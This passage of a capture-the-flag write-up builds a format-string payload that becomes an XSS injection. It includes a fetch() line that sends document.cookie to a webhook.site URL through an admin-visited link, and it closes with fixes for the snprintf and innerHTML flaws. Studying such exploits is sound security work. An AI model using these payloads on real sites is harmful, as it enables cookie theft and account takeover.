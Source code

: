 ```
%1$ 60d%4$n%4$S
```

Trying out this new version of the payload shows a new problem however.
Because while the first wide char is indeed '`<`' as intended the second one is not printable which causes an exception and leads to nothing being printed.
This is where the `[length modifier]` I mentioned earlier comes in handy.
This is because each character is stored at a 4 byte offset from the last one, so we can use `ll` when writing '`<`' to memory, which will write 8 bytes, and because of the endianness the first character will then still be '`<`', but the second character will have been overwritten with a null byte which is the string terminator.
After applying this change, our paylod now looks like this:

```
%1$ 60d%4$lln%4$S
```

Now we can add what is necessary to build an `img` with an `onerror` handler, like this:

```
%1$ 60d%4$lln%4$Simg src="" onerror="alert(1)">
```

Finally we just need to add '`%2$c%3$c`' at the end in order to satisfy the requirement that there be no gaps in the arguments used with the `$`-notation. So, we now have a working proof of concept (note that this, of course, needs to be url encoded and added as the URL parameter `msg`):

```
%1$ 60d%4$lln%4$Simg src="" onerror="alert(1)"> %2$c%3$c
```

# Getting the Flag

At this point, getting the flag is quite simple. We can just replace the `alert(1)` with a js payload to extract the cookies, like this one:

```js
fetch('https://webhook.site/<insert_uuid_here>', {method: 'POST', mode: 'no-cors', body: document.cookie})
```

And then we head to `/report` and submit the URL with our encoded payload, which, as mentioned earlier, will lead to an admin visiting that URL and to our js payload being executed.
After that, we can observe a POST request, with the flag in the request body, being made to the URL from the payload.

# Fixing the Vulnerabilities

There are two security related issues here that should be fixed:

1. The usage of `snprintf` with user input as the format string.

2. The usage of `innerHTML` with (improperly) filtered user input.

Fixing the format string vulnerability is quite simple, as the call to `snprintf` could easily be replaced by a call to `memcpy` which would completely eliminate the format string vulnerability without any change in the normal behaviour of `echo`.
